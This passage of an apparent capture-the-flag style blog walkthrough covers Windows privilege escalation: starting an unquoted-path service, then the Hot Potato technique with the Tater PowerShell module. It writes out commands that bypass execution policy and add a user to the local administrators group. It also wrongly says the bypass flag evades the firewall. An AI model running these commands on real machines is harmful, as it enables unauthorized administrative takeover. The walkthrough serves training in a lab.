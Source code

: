 Then we start the **unquotedsvc** service (by using the command ```sc start unquotedsvc```) and we check if our user belongs to administrator localgroup:

![Administrator](/assets/img/posts/windows-privesc/task10/administrator.png)



### <span style="color: var(--link-color);">[Task 11] - Potato Escalation - Hot Potato </span>

"Hot Potato is a technique that takes advantage of known issues in Windows to gain local privilege escalation in default configurations, namely NTLM relay (specifically HTTP->SMB relay) and NBNS spoofing".

You can read more about the exploit [here](https://foxglovesecurity.com/2016/01/16/hot-potato/).


> Exploitation
> 
> Windows VM
> 
> 1. In command prompt type: powershell.exe -nop -ep bypass
> 2. In Power Shell prompt type: Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
> 3. In Power Shell prompt type: Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
> 4. To confirm that the attack was successful, in Power Shell prompt type: net localgroup administrators


##### Exploitation

To exploit this vulnerability, we can use **Tater** module that is a PowerShell implementation of the Hot Potato Windows Privilege Escalation.
So we, first, start Powershell with bypass option to bypass firewall:
```
powershell.exe -nop -ep bypass
```

Then, we import the Tater module:
```
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
```
